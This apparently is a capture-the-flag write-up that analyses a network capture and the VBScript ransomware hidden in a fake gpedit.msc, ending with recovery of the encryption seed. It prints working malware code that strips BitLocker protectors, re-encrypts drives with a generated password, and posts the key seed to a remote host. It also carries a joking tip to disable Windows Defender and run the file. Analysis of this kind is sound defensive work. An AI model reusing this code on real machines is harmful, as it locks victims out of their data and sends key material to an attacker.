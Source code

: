 We are given a fairly small .pcap file that we open with Wireshark. Upon filtering for HTTP traffic, we find the first interesting request.

![Alt text](URL or path to the image)

It seems that a zip file was sent to the target machine. We can extract the .zip file by "following the HTTP Stream" in Wireshark and copying the raw bytes. Now, of course, we could paste these bytes into a new file using a hex editor. However, I like to promote the use of unnecessary online tools. So, I paste them into This Website and download the file.

If they save the files being processed, that is what we call a "no-no" in privacy terms. Let’s hope they don’t try to open the file on a Windows machine.

The downloaded file is a zip file containing a file called gpedit.msc.

The first hint about what this file is comes when we copy it to a Windows machine and it gets deleted immediately. This file might be malware! Here’s a pro tip for people wanting an EPT-Token: Turn off your Windows Defender and run gpedit.msc. It will irrecoverably encrypt your entire system, BUT you will also get an EPT-Coin.

Upon analyzing gpedit.msc, we stumble upon this large block of URL-encoded characters:

By utilizing yet another online tool, CyberChef, we decode the characters and get another Visual Basic script!

This script is quite interesting indeed
```vbscript
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34) & Chr(39) & strRandom & Chr(39) & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then
End If
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then End If
```
This part of the scripts in essence enables bitlocker encryption on some drives. The key used for the encryption seems to be "strRandom".

strRandom is defined in the following code snippet:


```vbscript
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next
```
Here we can see that a seed for Rnd() is generated using several characteristics of the target machine.
strRandom is then built using Rnd(). 

Since Rnd() is deterministic we could recover strRandom if we had the seed. 

```vbscript
Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result
```

As we can see in this snippet the seed is actually sent to http://192.168.77.136/updatelog

And lo and behold we can find that request in our .pcap file.

Decoding the base64 string we get "DESKTOP-59C1C3D	43906.83" where 43906.83 is our seed.


By 
   
